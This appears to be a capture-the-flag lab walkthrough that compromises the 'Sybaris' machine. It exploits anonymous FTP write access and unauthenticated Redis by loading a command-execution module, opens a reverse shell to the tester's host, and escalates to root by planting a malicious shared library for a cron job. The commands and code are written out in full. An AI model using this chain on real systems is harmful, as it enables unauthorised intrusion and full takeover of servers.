








Writeup by wook413
As always, I started with a comprehensive TCP scan of all 65,535 ports.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:16 UTCNmap scan report for 192.168.108.93Host is up (0.046s latency).Not shown: 65519 filtered tcp ports (no-response), 12 closed tcp ports (reset)Some closed ports may be reported as filtered due to --defeat-rst-ratelimitPORT STATE SERVICE21/tcp open ftp22/tcp open ssh80/tcp open http6379/tcp open redis
Nmap done: 1 IP address (1 host up) scanned in 43.87 secondsOnce the ports were identified, I followed up with a targeted TCP scan.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sC -sV -p 21,22,80,6379 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:21 UTCStats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing Ping ScanPing Scan Timing: About 100.00% done; ETC: 02:21 (0:00:00 remaining)Nmap scan report for 192.168.108.93Host is up (0.047s latency).
PORT STATE SERVICE VERSION21/tcp open ftp vsftpd 3.0.2| ftp-syst: | STAT: | FTP server status:| Connected to 192.168.45.236| Logged in as ftp| TYPE: ASCII| No session bandwidth limit| Session timeout in seconds is 300| Control connection is plain text| Data connections will be plain text| At session startup, client count was 2| vsFTPd 3.0.2 - secure, fast, stable|_End of status| ftp-anon: Anonymous FTP login allowed (FTP code 230)|_drwxrwxrwx 2 0 0 6 Apr 01 2020 pub [NSE: writeable]22/tcp open ssh OpenSSH 7.4 (protocol 2.0)| ssh-hostkey: | 2048 21:94:de:d3:69:64:a8:4d:a8:f0:b5:0a:ea:bd:02:ad (RSA)| 256 67:42:45:19:8b:f5:f9:a5:a4:cf:fb:87:48:a2:66:d0 (ECDSA)|_ 256 f3:e2:29:a3:41:1e:76:1e:b1:b7:46:dc:0b:b9:91:77 (ED25519)80/tcp open http Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)| http-robots.txt: 11 disallowed entries | /config/ /system/ /themes/ /vendor/ /cache/ | /changelog.txt /composer.json /composer.lock /composer.phar /search/ |_/admin/| http-cookie-flags: | /: | PHPSESSID: |_ httponly flag not set|_http-title: Sybaris - Just another HTMLy blog|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22|_http-generator: HTMLy v2.7.56379/tcp open redis Redis key-value store 5.0.9Service Info: OS: Unix
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 12.34 secondsLastly, I performed a UDP scan to check for any overlooked common services.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sU --top-ports 10 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:23 UTCNmap scan report for 192.168.108.93Host is up (0.061s latency).
PORT STATE SERVICE53/udp open|filtered domain67/udp open|filtered dhcps123/udp open|filtered ntp135/udp open|filtered msrpc137/udp open|filtered netbios-ns138/udp open|filtered netbios-dgm161/udp open|filtered snmp445/udp open|filtered microsoft-ds631/udp open|filtered ipp1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.95 secondsThe FTP service on port 21 allows anonymous login. I discovered a directory named /pub where I have write privileges. I confirmed this by uploading a test image. This write access will likely be a crucial pivot point for gaining initial access.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ ftp $IPConnected to 192.168.108.93.220 (vsFTPd 3.0.2)Name (192.168.108.93:kali): anonymous331 Please specify the password.Password: 230 Login successful.Remote system type is UNIX.Using binary mode to transfer files.
ftp> ls -la229 Entering Extended Passive Mode (|||10097|).150 Here comes the directory listing.drwxr-xr-x 3 0 0 17 Sep 04 2020 .drwxr-xr-x 3 0 0 17 Sep 04 2020 ..drwxrwxrwx 2 0 0 6 Apr 01 2020 pub226 Directory send OK.
ftp> cd pub250 Directory successfully changed.ftp> ls -la229 Entering Extended Passive Mode (|||10092|).150 Here comes the directory listing.drwxrwxrwx 2 0 0 6 Apr 01 2020 .drwxr-xr-x 3 0 0 17 Sep 04 2020 ..226 Directory send OK.
ftp> put cat.jpglocal: cat.jpg remote: cat.jpg229 Entering Extended Passive Mode (|||10100|).150 Ok to send data.100% |*********************************************************************************************| 21914 8.33 MiB/s 00:00 ETA226 Transfer complete.21914 bytes sent in 00:00 (144.15 KiB/s)I initiated my web discovery by running the Nmap http-enum script. I’ve found this often catches leads that standard directory bursting tools miss.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sV --script=http-enum -p 80Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:26 UTCNmap scan report for 192.168.108.93Host is up (0.053s latency).
PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22| http-enum: | /robots.txt: Robots file| /icons/: Potentially interesting folder w/ directory listing|_ /index/: Potentially interesting folder
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 230.06 seconds
The robots.txt file revealed several interesting directories.
xxxxxxxxxx## robots.txt## This file is to prevent the crawling and indexing of certain parts# of your site by web crawlers and spiders run by sites like Yahoo!# and Google. By telling these "robots" where not to go on your site,# you save bandwidth and server resources.## This file will be ignored unless it is at the root of your host:# Used: <http://example.com/robots.txt># Ignored: <http://example.com/site/robots.txt>## For more information about the robots.txt standard, see:# <http://www.robotstxt.org/wc/robots.html>## For syntax checking, see:# <http://www.sxw.org.uk/computing/robots/check.html>
User-agent: *
# Disallow directoriesDisallow: /config/Disallow: /system/Disallow: /themes/Disallow: /vendor/Disallow: /cache/
# Disallow filesDisallow: /changelog.txtDisallow: /composer.jsonDisallow: /composer.lockDisallow: /composer.phar
# Disallow pathsDisallow: /search/Disallow: /admin/
# Allow themesAllow: /themes/*/css/Allow: /themes/*/images/Allow: /themes/*/img/Allow: /themes/*/js/Allow: /themes/*/fonts/
# Allow content imagespabAllow: /content/images/*.jpgAllow: /content/images/*.pngAllow: /content/images/*.gif┌──(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.108.93>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/.hta (Status: 403) [Size: 206]/.htaccess (Status: 403) [Size: 211]/.htpasswd (Status: 403) [Size: 211]/Index (Status: 200) [Size: 7870]/admin (Status: 302) [Size: 0] [--> /login]/cache (Status: 301) [Size: 236] [--> <http://192.168.108.93/cache/>]/cgi-bin/ (Status: 403) [Size: 210]/config (Status: 403) [Size: 208]/content (Status: 301) [Size: 238] [--> <http://192.168.108.93/content/>]/favicon.ico (Status: 200) [Size: 1150]/front (Status: 301) [Size: 0] [--> /]/humans.txt (Status: 200) [Size: 1157]/index (Status: 200) [Size: 7870]/lang (Status: 301) [Size: 235] [--> <http://192.168.108.93/lang/>]/login (Status: 200) [Size: 3046]/logout (Status: 302) [Size: 0] [--> /login]/robots.txt (Status: 200) [Size: 1154]/sitemap.xml (Status: 200) [Size: 505]/system (Status: 301) [Size: 237] [--> <http://192.168.108.93/system/>]/themes (Status: 301) [Size: 237] [--> <http://192.168.108.93/themes/>]Progress: 4746 / 4747 (99.98%)===============================================================Finished===============================================================composer.json provided specific version information; while it might be a rabbit hole, I’ve noted it for potential exploit research later.

I identified a login form at /login . By testing the form, I noticed inconsistent error messages. A random username returns “Username not found”, while the username “pablo” (found in the page footer) returns “Your username and password mismatch.” This confirms pablo is a valid user.


xxxxxxxxxxpablo


Moving to port 6379, I found the Redis server allows null authentication, granting me access without credentials.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ redis-cli -h $IP192.168.108.93:6379> helpredis-cli 8.0.0To get help about Redis commands type: "help @<group>" to get a list of commands in <group> "help <command>" for help on <command> "help <tab>" to get a list of possible help topics "quit" to exit
To set redis-cli preferences: ":set hints" enable online hints ":set nohints" disable online hintsSet your preferences in ~/.redisclirc┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sV --script redis-info -p 6379Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 03:14 UTCNmap scan report for 192.168.108.93Host is up (0.052s latency).
PORT STATE SERVICE VERSION6379/tcp open redis Redis key-value store 5.0.9 (64 bits)| redis-info: | Version: 5.0.9| Operating System: Linux 3.10.0-1127.19.1.el7.x86_64 x86_64| Architecture: 64 bits| Process ID: 906| Used CPU (sys): 2.129620| Used CPU (user): 1.689779| Connected clients: 1| Connected slaves: 0| Used memory: 1.55M| Role: master| Bind addresses: | 0.0.0.0| Client connections: |_ 192.168.45.236
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 6.83 secondsFollowing a “Load Redis Modue” exploit found on HackTricks, I attempted to compile a module for RCE.

I clone the git repository listed on the page. The compilation initially failed. I resolved this by adding the missing headers: #include <string.h> ,#include <arpa/inet.h> , and #include <unistd.h> .
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ git clone <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git>Cloning into 'RedisModules-ExecuteCommand'...remote: Enumerating objects: 494, done.remote: Counting objects: 100% (117/117), done.remote: Compressing objects: 100% (17/17), done.remote: Total 494 (delta 101), reused 100 (delta 100), pack-reused 377 (from 1)Receiving objects: 100% (494/494), 203.32 KiB | 2.82 MiB/s, done.Resolving deltas: 100% (289/289), done.
┌──(kali㉿kali)-[~/Desktop/RedisModules-ExecuteCommand]└─$ sudo make make -C ./srcmake[1]: Entering directory '/home/kali/Desktop/RedisModules-ExecuteCommand/src'make -C ../rmutilmake[2]: Entering directory '/home/kali/Desktop/RedisModules-ExecuteCommand/rmutil'gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../ -c -o util.o util.cgcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../ -c -o strings.o strings.cgcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../ -c -o sds.o sds.cgcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../ -c -o vector.o vector.cgcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../ -c -o alloc.o alloc.cgcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../ -c -o periodic.o periodic.car rcs librmutil.a util.o strings.o sds.o vector.o alloc.o periodic.omake[2]: Leaving directory '/home/kali/Desktop/RedisModules-ExecuteCommand/rmutil'gcc -I../ -Wall -g -fPIC -lc -lm -std=gnu99 -c -o module.o module.cmodule.c: In function ‘DoCommand’:module.c:18:29: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers] 18 | char *cmd = RedisModule_StringPtrLen(argv[1], &cmd_len); | ^~~~~~~~~~~~~~~~~~~~~~~~module.c: In function ‘RevShellCommand’:module.c:43:28: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers] 43 | char *ip = RedisModule_StringPtrLen(argv[1], &cmd_len); | ^~~~~~~~~~~~~~~~~~~~~~~~module.c:44:32: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers] 44 | char *port_s = RedisModule_StringPtrLen(argv[2], &cmd_len); | ^~~~~~~~~~~~~~~~~~~~~~~~module.c:59:17: warning: argument 2 null where non-null expected [-Wnonnull] 59 | execve("/bin/sh", 0, 0); | ^~~~~~In file included from module.c:4:/usr/include/unistd.h:572:12: note: in a call to function ‘execve’ declared ‘nonnull’ 572 | extern int execve (const char *__path, char *const __argv[], | ^~~~~~ld -o module.so module.o -shared -Bsymbolic -L../rmutil -lrmutil -lc make[1]: Leaving directory '/home/kali/Desktop/RedisModules-ExecuteCommand/src'cp ./src/module.so . ┌──(kali㉿kali)-[~/Desktop/RedisModules-ExecuteCommand]└─$ lsLICENSE Makefile module.so README.md redismodule.h rmutil srcI uploaded the compiled module.so to the FTP /pub directory, loaded it into the Redis server, and successfully executed commands. From there, I established a reverse shell to my listener.
xxxxxxxxxxftp> put module.solocal: module.so remote: module.so229 Entering Extended Passive Mode (|||10097|).150 Ok to send data.100% |*********************************************************************************************| 47792 968.73 KiB/s 00:00 ETA226 Transfer complete.47792 bytes sent in 00:00 (238.81 KiB/s)┌──(kali㉿kali)-[~/Desktop/RedisModules-ExecuteCommand]└─$ redis-cli -h $IP192.168.108.93:6379> module load /var/ftp/pub/module.soOK192.168.108.93:6379> system.exec "id""uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\\n"192.168.108.93:6379> system.rev 192.168.45.236 80pabloxxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 penelope.py -p 80 [+] Listening for reverse shells on 0.0.0.0:80 → 127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)[+] Got reverse shell from sybaris~192.168.108.93-Linux-x86_64 😍 Assigned SessionID <1>[+] Attempting to upgrade shell to PTY...[+] Shell upgraded successfully using /usr/bin/python! 💪[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 [+] Logging to /home/kali/.penelope/sessions/sybaris~192.168.108.93-Linux-x86_64/2026_01_16-05_00_34-750.log 📜──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[pablo@sybaris /]$ whoamipablo[pablo@sybaris /]$ Found local.txt
xxxxxxxxxx[pablo@sybaris pablo]$ lslocal.txt[pablo@sybaris pablo]$ cat local.txt252...While searching for priv-esc vectors, I noticed /usr/local/lib/dev is globally writable. This directory is also included in the LD_LIBRARY_PATH environment variable.

A system-wide cron job runs /usr/bin/log-sweeper every minute. When I attempted to execute this binary manually, it failed, citing a missing shared library: utils.so
xxxxxxxxxx[pablo@sybaris tmp]$ cat /etc/crontabSHELL=/bin/bashPATH=/sbin:/bin:/usr/sbin:/usr/binLD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utilsMAILTO=""
# For details see man 4 crontabs
# Example of job definition:# .---------------- minute (0 - 59)# | .------------- hour (0 - 23)# | | .---------- day of month (1 - 31)# | | | .------- month (1 - 12) OR jan,feb,mar,apr ...# | | | | .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat# | | | | |# * * * * * user-name command to be executed * * * * * root /usr/bin/log-sweeper[pablo@sybaris tmp]$ log-sweeperlog-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directorySince the cron job runs as root and searches for utils.so in the directory listed in LD_LIBRARY_PATH , I can hijack the execution flow. By placing a malicious utils.so in the writable /usr/local/lib/dev directory, the cron job will execute my code with root privileges.
I developed a malicious C library designed to set the SUID bit on /bin/bash .
xxxxxxxxxx#include <stdio.h>#include <stdlib.h>#include <sys/types.h>
static void hijack() __attribute__((constructor));
void hijack() { unsetenv("LD_LIBRARY_PATH"); setuid(0); setgid(0); system("chmod +s /bin/bash");}┌──(kali㉿kali)-[~/Desktop]└─$ gcc -o utils.so -shared -fPIC utils.cutils.c: In function ‘hijack’:utils.c:9:9: error: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration] 9 | setresuid(0,0,0); | ^~~~~~~~~ After adding #include <sys/types.h> to fix compilation errors, I moved the library to the target directory.
xxxxxxxxxx#include <stdio.h>#include <stdlib.h>#include <sys/types.h>#include <unistd.h>
static void hijack() __attribute__((constructor));
void hijack() { unsetenv("LD_LIBRARY_PATH"); setgid(0); setuid(0); system("chmod +s /bin/bash");}┌──(kali㉿kali)-[~/Desktop]└─$ gcc -o utils.so -shared -fPIC utils.c
┌──(kali㉿kali)-[~/Desktop]└─$ ls -l utils.*-rw-rw-r-- 1 kali kali 238 Jan 16 06:13 utils.c-rwxrwxr-x 1 kali kali 15528 Jan 16 06:13 utils.so[pablo@sybaris tmp]$ mv utils.so /usr/local/lib/dev/utils.so[pablo@sybaris tmp]$ cd /usr/local/lib/dev[pablo@sybaris dev]$ ls -latotal 16drwxrwxrwx 2 root root 22 Jan 16 01:15 .drwxr-xr-x. 4 root root 30 Sep 7 2020 ..-rw-rw-r-- 1 pablo pablo 15528 Jan 16 01:13 utils.sorootAfter waiting a minute for the cron job to trigger, I verified that /bin/bash now has the SUID bit set. I can not spawn a root shell.
xxxxxxxxxx[pablo@sybaris dev]$ ls -la /bin/bash-rwsr-sr-x. 1 root root 964536 Mar 31 2020 /bin/bash[pablo@sybaris dev]$ /bin/bash -pbash-4.2# whoamirootFound proof.txt
xxxxxxxxxxbash-4.2# ls -latotal 24dr-xr-x---. 3 root root 141 Jan 15 23:02 .dr-xr-xr-x. 17 root root 244 Sep 4 2020 ..lrwxrwxrwx. 1 root root 9 Sep 4 2020 .bash_history -> /dev/null-rw-r--r--. 1 root root 18 Dec 28 2013 .bash_logout-rw-r--r--. 1 root root 176 Dec 28 2013 .bash_profile-rw-r--r--. 1 root root 176 Dec 28 2013 .bashrc-rw-r--r--. 1 root root 100 Dec 28 2013 .cshrcdrwxr-----. 3 root root 19 Sep 4 2020 .pki-rw-------. 1 root root 33 Jan 15 23:02 proof.txt-rw-r--r--. 1 root root 129 Dec 28 2013 .tcshrc
bash-4.2# cat proof.txtb6a...